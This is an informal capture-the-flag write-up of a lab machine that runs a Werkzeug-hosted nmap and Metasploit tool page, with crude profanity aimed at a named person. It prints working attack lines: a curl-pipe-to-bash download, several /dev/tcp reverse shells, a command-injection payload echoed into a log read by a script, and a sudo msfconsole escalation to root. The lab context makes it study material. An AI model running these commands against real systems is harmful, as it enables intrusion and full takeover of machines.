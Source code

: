1, enumerate ports and web-contents
22/tcp ssh
5000/tcp http `Werkzeug httpd 0.16.1 (Python 3.8.5)`

To be honest, I think this version of Werkzeug must have some exploits
`Werkzeug - 'Debug Shell' Command Execution`
`https://github.com/its-arun/Werkzeug-Debug-RCE.git

From the index page, we can know this is a nmap and metasploit usage website.

So let's check the command injections:
Given that all three of these seem to be running binaries from a Linux system, I’ll try command injection in each input, but without luck. Any non-alphanumeric characters in the searchsploit box lead to this warning
`stop hacking me - well hack you back`

Thus we can try to get some vulners of nmap or Metasploits
By checking the Exploit-db, there is nothing high-risk vulners for nmap, but there is something interesting for MSF
`Metasploit Framework 6.0.11 - msfvenom APK template command injection`
So cool, the best rce vulner.

So let's exploit it !

We can use the msf to help us to generate the payload and we just need to upload it .

In this place, I must say I want to fuck 0xdf, I really want to say why I cannot handle my shell !!!!!!!!!

So in this place, I would use another way 
`searchsploit -m multiple/local/49491.py`
Then change the scirpt :
```
# Change me
payload = 'curl 10.10.14.65/shell.sh|bash'

# make the shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.65/1337 0>&1
```

Then finally we get the user shell !!!!!!!

3, root shell
There is another user pwn and there is a interesting script for us.
```
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

Reviewing the script, it is setting the log variable to /home/kid/logs/hackers. Next, it is changing the directory to the /home/pwn directory. After changing the directory, it uses cat to read the log file. Next, it uses space as a delimiter on the third field. It then passes the results to a while loop as an IP address and uses nmap to scan the IP.
```

Now that I understood what the script was doing, I should be able to craft a payload that gets executed. By echoing a payload to the /home/kid/logs/hackers file, the payload should get executed. However, I need to ensure that the payload is within the third field of the log. I started a netcat listener on port 1338 and then used echo to add the following payload to the log file.

`kid@scriptkiddie:~$ echo 'a b $(bash -c "bash -i &>/dev/tcp/10.10.14.65/443 0>&1")' > /home/kid/logs/hackers`

Then we get the pwn shell and we can check the `sudo -l`
```
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

With that in mind, I launched Metasploit with sudo and then dropped into the ruby shell as root which allowed me to capture the root flag.

```
sudo /opt/metasploit-framework-6.0.9/msfconsole
irb
system("/bin/bash")

Then we can run /bin/bash as root
```